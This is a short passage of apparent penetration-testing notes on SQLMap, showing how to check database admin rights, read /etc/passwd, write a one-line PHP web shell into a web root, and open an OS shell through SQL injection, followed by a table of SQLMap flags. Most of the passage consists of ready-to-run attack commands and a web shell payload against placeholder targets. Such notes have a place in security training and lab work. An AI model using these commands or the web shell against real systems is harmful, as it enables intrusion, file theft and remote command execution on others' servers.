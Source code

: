 Check whether we have DBA privileges with SQLMap (`--is-dba`):
```console
zero@pio$ sqlmap -u "http://www.example.com/case1.php?id=1" --is-dba
```

## Reading Local Files 

SQLMap makes it relatively easy to read local files (`--file-read`):
```console
zero@pio$ sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd" 
```

## Writing Local Files 

In MySql, the `--secure-file-priv` configuration must be manually disabled to allow writing data into local files using the `INTO OUTFILE SQL` query. To write data into files we must use `--file-write` and `--file-dest`. Let's start creating a payload:
```console
zero@pio$ echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

And then write it:
```console
zero@pio$ sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"
```

## OS Command Execution 

Another way is with `--os-shell`:
```console
zero@pio$ sqlmap -u "http://www.example.com/?id=1" --os-shell
```

SQLMap defaulted to **UNION** technique to get an OS shell, we can modify it with `--technique=E` (**Error-based SQL Injection**):
```console
zero@pio$ sqlmap -u "http://www.example.com/?id=1" --os-shell --technique=E
```

---

# SQLMap Flags

| **Flag**   | **Description**    |
|--------------- | --------------- |
| **Basic** |
| `-u "<url>"` | set the target |
| `-r <request file>` | use a request file | 
| `--data` | send POST data |
| `-p <parameter>` | set target parameter |
| `--method GET/POST/PUT` | set HTTP method |
| **Handling Errors** |
| `--parse-errors` | display errors |
| `-t` | stores the whole traffic content to an output file |
| `-v` | verbosity |
| `--proxy` | redirect the whole traffic |
